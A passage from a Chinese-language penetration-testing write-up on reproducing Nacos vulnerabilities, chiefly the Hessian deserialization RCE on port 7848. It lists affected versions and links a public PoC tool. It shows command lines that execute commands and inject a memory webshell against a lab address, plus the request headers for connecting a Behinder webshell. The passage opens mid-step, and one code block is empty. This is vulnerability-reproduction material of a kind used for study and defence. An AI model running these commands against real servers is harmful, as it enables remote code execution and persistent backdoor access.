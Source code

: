 -C src/：切换到 src/ 目录（相当于 cd src/）。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia7M3VDcjGfPuSeasntrxnP8y4Rj9WqJt0AswdZiaHzqh38xTMUKhm5Zw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
将生成的jar文件传到服务器上，到指定目录，开启web服务  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiak66ibP7Y3FSIoGXYuL2fv61M9bIa68NKdGtyvLsrjObYNvHQmnib2INg/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
在Nacos发现dataid为db-config  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaTEqrGSjgdnmfHOnGyjuXgrJJCQricIKkZj842tJtdoVtWVc2GIBA9fQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaf6QDfDALneyic81IicRCoofd1NmuvDt8pLN0DhYNb8CiaQz8P5FibHGDMQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
我只是复现到这了，试了几个，没成功就停了。  
  
这个是靶场成功的链接  
  
内网渗透 -春秋云镜篇之Hospital-腾讯云开发者社区-腾讯云  
### 8.Nacos Hessian 反序列化漏洞  
  
由于7848端口采用hessian协议传输数据，反序列化未设置白名单导致存在RCE漏洞。  
  
影响版本：1.4.0<=Nacos<1.4.6, 2.0.0<Nacos<2.2.3  
  
Nacos 1.x在单机模式下默认不开放7848端口，故该情况通常不受此漏洞影响，但是集群模式受影响。然而，2.x版本无论单机或集群模式均默认开放7848端口。  
  
主要受影响的是7848端口的Jraft服务。  
  
漏洞复现  
  
测试版本nacos 2.2.2  
  
poc：https://github.com/c0olw/NacosRce  
```
```  
  
执行命令同时注入内存马  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiauRx7CocqfL7tSOPPwzvCOQlCicwmaTWM009ibP6fiaEsGp7b9BrlGV3VQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
直接使用webshell管理工具进行链接即可  
  
自动注入内存马并执行命令 java -jar NacosRce.jar Url Jraft端口 "Command"  
  
java -jar NacosRce.jar http://192.168.90.1:8848/nacos  7848 "whoami"  
  
只注入内存马  
  
java -jar NacosRce.jar http://192.168.90.1:8848/nacos 7848 memshell  
  
  
内存马说明：  
  
一、冰蝎内存马：  
  
1、需要设置请求头x-client-data:rebeyond  
  
2、设置Referer:https://www.google.com/  
  